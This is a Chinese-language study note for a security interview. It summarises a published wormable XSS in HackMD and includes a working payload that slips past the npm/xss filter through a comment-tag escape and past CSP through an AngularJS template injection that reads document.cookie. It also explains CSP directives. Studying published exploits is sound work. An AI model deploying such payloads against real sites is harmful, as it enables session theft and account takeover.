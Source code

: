 下午有腾讯的面试，现在开始临阵磨枪吧！

- Markdown XSS防御 ：https://blog.orange.tw/2019/03/a-wormable-xss-on-hackmd.html 
- CSP绕过
- IDOR
- telegram APT34工具下载


### HackMD XSS
学习大佬们：https://github.com/hackmdio/codimd/issues?utf8=%E2%9C%93&q=XSS  
Orange：再安全的函示庫碰到不安全的用法也會無用武之地  
测试了一下自己本地未升级的typora，果然还是存在很多xss rce的漏洞的  
想起自己之前导出pdf时由于某html标签截断后续文档，为什么当时就没有试着去挖一下呢？diss自己！

1. 信任问题
npm/xss 提供了多個不同的選項給開發者，而其中在 onIgnoreTag 這個 callback 中，開發者判斷了如果是註解的標籤便直接回傳原始的 HTML 內容，在 JavaScript 上的註解也寫得很直白!于是利用注释绕过xss过滤，payload:`<!-- foo="bar--> <s>Hi</s>" -->`

2. CSP绕过
HackMD使用了 CSP(Content Security Policy) 去阻擋未授權的 JavaScript 代碼執行  
检查unsafe_eval: https://cdnjs.cloudflare.com  可以通过第三方库绕过+客户端模版注入绕过


3. payload
透過註解標籤屬性的跳脫及 CSP 的繞過
```
<!-- foo="-->
<script src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.min.js>
</script>
<div ng-app>
    {{constructor.constructor('alert(document.cookie)')()}}
</div>
//sssss" -->
```
### CSP绕过
读了一篇文章，讲了两种思路，大概总结一下：https://xz.aliyun.com/t/2438

> - **script-src**：外部脚本
> - **style-src**：样式表
> - **img-src**：图像
> - **media-src**：媒体文件（音频和视频）
> - **font-src**：字体文件
> - **object-src**：插件（比如 Flash）
> - **child-src**：框架
> - **frame-ancestors**：嵌入的外部资源（比如<frame>、<iframe>、<embed>和<applet>）
> - **connect-src**：HTTP 连接（通过 XHR、WebSockets、EventSource等）
> - **worker-src**：`worker`脚本
> - **manifest-src**：manifest 文件
> - **report-uri**: 用来告诉浏览器，应该把注入行为报告给哪个网址。

```
Content-Security-Policy: script-src 'self'; object-src 'none';
style-src cdn.example.org third-party.org; child-src https:
```

脚本资源只允许本域资源；object不信任任何资源（所以object标签是什么？咦，是加载flash用的，也就是不可以加载flash了）；样式表：只允许加载cdn.example.org和third-party.org；框架必须使用https协议；其他资源无限制







